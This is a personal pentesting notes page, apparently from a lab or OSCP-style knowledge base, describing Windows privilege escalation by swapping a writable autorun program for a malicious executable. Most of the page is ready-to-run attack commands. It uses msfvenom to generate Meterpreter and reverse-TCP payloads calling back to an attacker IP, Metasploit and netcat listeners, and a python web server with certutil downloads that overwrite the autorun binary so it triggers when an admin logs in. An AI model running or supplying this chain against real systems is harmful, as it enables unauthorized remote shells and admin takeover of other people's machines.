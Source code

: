 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Autoruns|Enum]]
General workflow:
1. Identify autoruns
2. Identify if you have `write` privs on autorun
3. Identify if autorun is run on admin login
4. Generate payload
5. name it the same as autorun program
6. replace autorun with malware payload
7. setup listener
8. wait for admin to log in and trigger autorun
If you are on this page, you should have done steps 1-3.
#### Generate payload
Attack box: 
```bash
msfvenom -p windows/meterprter/reverse_tcp lhost=<attack ip> lport=<port> -f exe -o <autorun program name>.exe

msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.14 lport=9001 -f exe -o program.exe
msfvenom -p windows/x64/reverse_tcp lhost=10.10.10.14 lport=9001 -f exe -o program.exe
```
#### setup listener
```bash
# for meterpreter payload
msfconsole
use multi/handler
set lhost 10.10.10.14
set lport 9001
run

# for regular reverse shell
nc -nvlp 9001
```
#### replace autorun w/ malware
Also see [[Dark Arts I/File Transfer/Windows|file transfer]]
```powershell
# attackbox, navigate to payload dir
# setup server
sudo python -m http.server 80

# you can then open IE on target, input your attack ip to connect to it, click on file, save as, then save to location of autorun file.

# otherwise:
certutil -urlcache http://<attack ip>/<filepath> <path to autorun file>
certuitil -urlcache http://10.10.10.14/program.exe "C:\Program Files\Autorun Program\program.exe"
```
Now just wait for admin/other user to log in and it should give you a shell. 
